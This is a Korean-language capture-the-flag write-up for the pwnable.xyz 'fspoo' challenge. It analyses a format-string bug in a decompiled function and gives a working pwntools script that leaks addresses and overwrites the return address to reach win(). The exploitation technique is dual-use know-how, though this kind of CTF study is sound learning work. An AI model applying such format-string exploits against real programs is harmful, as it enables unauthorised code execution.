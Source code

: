 ## 함수 취약점
1. `win()`으로 프로그램 실행을 변경하는 것이 목표이다.
```c++
int win()
{
  return system("cat flag");
}
```
2. `vuln()` 함수 분석
```c++
while ( 1 )
{
  printf(&cmd[32]);
  puts("1. Edit name.\n2. Prep msg.\n3. Print msg.\n4. Exit.");
  printf("> ");
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( (unsigned __int8)v1 != 1 )
    break;
  printf("Name: ");
  read(0, &cmd[48], 0x1Fu);
}
if ( (int)(unsigned __int8)v1 <= 1 )
  break;
if ( (unsigned __int8)v1 == 2 )
{
  sprintf(cmd, byte_B7B, &cmd[48]);
}
else if ( (unsigned __int8)v1 == 3 )
{
  puts(cmd);
}
```
* 초기 cmd를 6byte만큼을 format string을 위한 영역으로 사용할 수 있다. cmd의 영역이 나누어져있는데, cmd에서 index에 따라 영역은 다음과 같다.
    * ![cmd1](./img/cmd_1.png)
    * 회색 영역은 index상 32 전 format string 공격이 불가능한 곳이고, `puts(cmd)`를 해도 %s의 존재때문에 format string 공격이 불가능하다.
    * 노란색 영역은 `printf(&cmd[32])`의 존재때문에 format string 공격이 가능한 곳이다.
* cmd+38~cmd+47은 0x00으로 채워져있어 `printf(&cmd[32])`에서 출력이 이루어지지 않는데 이 구간을 다른 값으로 변화시킬 수 있다면, 더 큰 길이의 format string 공격이 가능할 것이다.
3. v1에 입력을 할때 하위 바이트만 검사하므로, v1에도 입력을 할 수 있다.

## 구현
1. 6byte format string으로 주소 구하기
```python
# 1.1. get ret address of vuln
p.sendafter('Name: ', 'a'*25+'%10$p')

p.sendlineafter('> ', '2')

vuln_sfp = int(p.recv(10), 16)
vuln_ret = vuln_sfp - 0xc

# 1.2. Get Base Address & function Address
p.sendlineafter('> ', '1')
p.sendafter('Name: ', "A"*25+"%2$p")
p.sendlineafter('> ', '2')
ret = int(p.recv(10), 16)

win_offset = 0x9fd
cmd_offset = 0x2040

cmd_addr = ret - 48
base_addr = cmd_addr - cmd_offset
win_addr = base_addr + win_offset

log.info(f"win_addr : {hex(win_addr)}")
log.info(f"cmd_addr : {hex(cmd_addr)}")
log.info(f"vuln_ret_addr : {hex(vuln_ret)}")
```
2. 1, 2를 초기 바이트 값으로 가지는 쓸 수 있는 address 구하기, v1에 buffer로 입력해준다.
```python
# tmp writable area
tmp_1 = base_addr + 0x2001
tmp_2 = base_addr + 0x2002
```

3. cmd+38 ~ cmd+47를 특정 값으로 바꾸어 format string의 영역 확장
```python
p.sendlineafter('> ', '1')
p.sendafter('Name: ', 'A'*27+'%6$n')
p.sendlineafter('> ', str(tmp_2))

for i in range(10):
    p.sendlineafter('> ', str(cmd_addr+38+i))
```

4. 확장된 cmd로 win address를 쪼개고 format string 실행
```python
# win() address 2byte 
win_addr_a = win_addr & 0xffff # win() High Address
win_addr_b = (win_addr >> 16) & 0xffff # win() Low Address

# Insert win() High address
payload = "%"+str(win_addr_a-12)+"c%6$n\x00"
p.sendlineafter('> ', str(tmp_1))
p.recvuntil('Name: ')
p.send(payload)
p.sendlineafter('> ', str(vuln_ret-0x100000000))

# Insert win() Low address
payload = "%"+str(win_addr_b-12)+"c%6$n\x00"
p.sendlineafter('> ', str(tmp_1))
p.recvuntil('Name: ')
p.send(payload)
p.sendlineafter('> ', str(vuln_ret-0x100000000+2))

p.sendlineafter('> ', '0')
p.interactive()
```

### Reference
해당 풀이는 인터넷의 writeup을 참고했다.
* [[Pwnable.xyz] fspoo](https://rninche01.tistory.com/entry/Pwnablexyz-fspoo)